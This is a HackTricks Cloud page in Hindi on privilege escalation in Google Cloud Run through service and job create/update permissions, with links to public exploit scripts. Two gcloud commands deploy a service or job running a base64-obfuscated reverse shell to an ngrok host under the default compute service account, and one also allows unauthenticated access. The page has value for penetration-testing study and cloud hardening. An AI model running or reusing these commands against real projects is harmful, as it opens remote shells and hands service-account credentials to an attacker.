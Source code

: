 # GCP - Run Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## run

### `run.services.create` , `iam.serviceAccounts.actAs`

_cloudfunctions.functions.create_ विधि के समान, यह विधि एक **नई Cloud Run सेवा** बनाती है जो, जब आमंत्रित की जाती है, **Service Account के** एक्सेस टोकन को वापस करती है जो सर्वर के मेटाडेटा API को एक्सेस करके प्राप्त किया जाता है जिस पर यह चल रहा है। एक Cloud Run सेवा तैनात की जाएगी और टोकन प्राप्त करने के लिए इसे एक अनुरोध किया जा सकता है।

इस विधि के लिए निम्नलिखित **अनुमतियां आवश्यक हैं**:

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **या** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

इस विधि में एक शामिल Docker इमेज का उपयोग होता है जिसे ठीक से शोषण करने के लिए बनाया और होस्ट किया जाना चाहिए। इमेज को इस तरह डिजाइन किया गया है कि Cloud Run को HTTP अनुरोध किए जाने पर Service Account के एक्सेस टोकन के साथ प्रतिक्रिया करने के लिए कहा जाए।

इस विधि के लिए शोषण स्क्रिप्ट [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) पाई जा सकती है और Docker इमेज [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage) पाई जा सकती है।

किसी कारण से, `gcloud run deploy` का उपयोग करते समय केवल सेवा बनाने के बजाय **इसे अपडेट अनुमति की आवश्यकता होती है**। [**यहां एक उदाहरण देखें**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

पिछले जैसा लेकिन एक सेवा को अपडेट करना
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

अपने आप को पिछले अनुमतियाँ दें।

### `run.jobs.create`,`run.jobs.run`,(`run.jobs.get`)

एक जॉब लॉन्च करें जिसमें रिवर्स शेल हो ताकि आदेश में दिखाए गए सर्विस अकाउंट की जानकारी चुराई जा सके। आप यहाँ एक [**exploit यहाँ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh) पा सकते हैं।

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

पिछले जैसा ही यह संभव है कि **एक जॉब को अपडेट करें और SA को अपडेट करें**, **आदेश** और **इसे निष्पादित करें**:
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

अपने आप को पिछली अनुमतियाँ दें।

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong> AWS हैकिंग सीखें शून्य से लेकर हीरो तक </strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
